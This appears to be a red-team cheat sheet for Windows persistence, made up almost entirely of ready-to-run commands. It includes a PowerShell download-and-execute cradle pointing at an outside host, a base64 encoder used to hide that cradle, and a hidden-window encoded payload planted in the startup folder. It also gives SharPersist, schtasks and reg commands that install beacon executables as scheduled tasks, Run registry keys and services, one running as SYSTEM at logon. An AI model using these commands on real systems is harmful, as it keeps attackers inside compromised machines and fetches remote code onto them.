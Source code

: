 ### SharPersist
https://github.com/mandiant/SharPersist

### Powershell Encoding
```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
```powershell
$Encoded=""
[System.Convert]::FromBase64String([System.Text.Encoding]::Unicode.GetString($Encoded))

```

### Task Scheduler
```powershell
execute-assembly /root/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Name" -m add -o hourly
execute-assembly /root/SharPersist.exe -t schtask -n "Name" -m list
execute-assembly /root/SharPersist.exe -t schtask -n "Name" -m remove
```

### Startup Folder
```powershell
execute-assembly /root/SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "Name" -m add
execute-assembly /root/SharPersist.exe -t startupfolder -m list
execute-assembly /root/SharPersist.exe -t startupfolder -f "Name" -m remove
```

### Registry AutoRun (Admin Access for "hklmrun")
```powershell
execute-assembly /root/SharPersist.exe -t reg -c "C:\Windows\System32\beacon.exe" -k "hkcurun" -v "Name" -m add
execute-assembly /root/SharPersist.exe -t reg -k "hkcurun" -v "Name" -m remove
execute-assembly /root/SharPersist.exe -t reg -k "hkcurun" -m list
```

### Windows Service (Admin Access)
```powershell
execute-assembly /root/SharPersist.exe -t service -c "C:\Windows\System32\beacon-svc.exe" -n "Name" -m add
execute-assembly /root/SharPersist.exe -t service -n "Name" -m list
execute-assembly /root/SharPersist.exe -t service -n "Name" -m remove
```

### Task Scheduler (schtasks)
```powershell
shell schtasks /create /sc minute /mo 1 /tn cool /tr "copy /Y C:\Users\Hassan\long.exe C:\Users\Hassan\short.exe & C:\Users\Hassan\short.exe"
shell schtasks /query /tn cool /V /FO LIST
shell schtasks /run /tn "cool"
shell schtasks /delete /tn "cool"
shell schtasks /create /sc onlogon /tn evil /tr calc.exe /ru SYSTEM
```

### Registry AutoRun (reg)
```powershell
shell reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
shell reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest /d calc.exe
shell reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest /d calc.exe
shell reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest
shell reg delete HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest
```
